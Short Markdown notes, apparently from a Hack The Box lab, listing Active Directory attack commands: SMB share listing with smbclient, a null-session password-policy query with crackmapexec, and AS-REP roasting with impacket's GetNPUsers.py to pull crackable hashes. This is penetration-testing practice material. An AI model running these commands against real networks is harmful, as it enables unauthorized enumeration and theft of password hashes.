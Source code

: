 ### smbclient  

    smbclient -L <ipaddr>

### passwordポリシーの取得
    crackmapexec smb 10.129.1.77 --pass-pol -u '' -p ''

### impacket

    python3 GetNPUsers.py -dc-ip 10.129.1.77 -request 'htb.local/' -format hashcat
